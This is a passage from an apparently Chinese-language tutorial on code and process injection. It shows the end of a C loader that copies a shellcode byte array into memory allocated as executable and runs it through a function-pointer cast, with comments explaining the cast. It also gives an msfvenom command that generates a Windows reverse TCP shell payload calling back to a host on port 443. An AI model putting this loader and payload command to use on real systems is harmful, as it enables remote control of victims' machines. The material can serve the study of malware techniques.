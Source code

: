 ```c
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	void* exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, buf, sizeof buf);
	((void(*)())exec)();
	
		return 0;
}
//并且似乎将名为exec的函数指针作为函数调用。(void(*)()):这是一个类型转换，指定函数指针的类型。在这种情况下，它将函数指针强制转换为一个void返回类型，没有参数。
    //exec:这是被调用的函数指针变量的名称。():这些空括号表示调用函数指针时不带参数。因此，当((void(*)())exec)();被执行时，它调用函数指针exec作为一个不带参数的函数，并期望一个void返回类型。
     //   这假定exec是一个指向具有指定签名的函数的有效函数指针。需要注意的是，如果没有任何额外的上下文或exec的定义，就很难确定调用这个函数指针的目的或结果。
  
```

在编译之前，出于好奇，让我们看一下在反汇编器中生成的shellcode二进制文件，这样我们就可以大致了解我们的c++代码是如何被翻译成x64的机器码的:



也是出于好奇，我想看看注入的shellcode在注入的进程中看起来是什么样子，看看它实际上在哪里。使用32位的shellcode二进制文件

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

shellcode位于主线程的堆栈中:

![](代码与进程注入/1.png)
